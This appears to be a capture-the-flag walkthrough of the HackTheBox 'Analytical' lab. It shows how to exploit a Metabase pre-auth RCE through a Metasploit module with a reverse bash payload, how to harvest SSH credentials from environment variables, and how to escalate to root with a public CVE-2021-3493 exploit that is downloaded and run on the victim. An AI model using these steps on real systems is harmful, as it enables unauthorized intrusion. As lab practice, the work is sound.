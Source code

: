 # Enumeration

The nmap scan reveals two open ports 22 for ssh and 80 where a website is hostet with the dnsname http://analytical.htb

## Enter domain to hosts-file

```
echo '10.10.11.233 analytical.htb | sudo tee -a /etc/hosts'
```

## Login-Panel and adding subdomain

On the website we find the subdomain data.analytical.htb . href of the Login-Button.

```
echo '10.10.11.233 data.analytical.htb | sudo tee -a /etc/hosts'
```

# Foothoold

The Loginpage leads us to the Software Metabase. By google 'metabase exploit' one of the first links is about a Pre-Auth RCE. https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

This article explains it in detail. By searching for the setup-token at the sourcecode of the login-pages it is verified this works. 

## Using Metasploit to gain access

By starting Metasploit and searching for Metabase we get one result which we select by use 0.

```
msfconsole
search Metabase
use 0
```

```
Module options(exploit/linux/http/metabase_setup_token_rce):
RHOSTS     data.analytical.htb  
RPORT      80
TARGETURI  / 
```
```
Payload options(cmd/unix/reverse_bash):
LHOST  tun0
LPORT  4444
```

## User SSHlogin

```
env
```

Gives us a META_PASS and META_USER which are the ssh credentials.

# Priviliges Escalation 

## Briskets

```
cat /etc/os-release
```

Reveals the Ubuntu 20.04 LTS which is vulnerable for the briskets.

https://github.com/briskets/CVE-2021-3493

On attacker site
```
git clone https://github.com/briskets/CVE-2021-3493
cd CVE-2021-3493/
gcc exploit.c -o exploit
python3 -m http.server PORT
```

On victim site 
```
wget http://IP:PORT/exploit
chmod +x exploit
./exploit
```





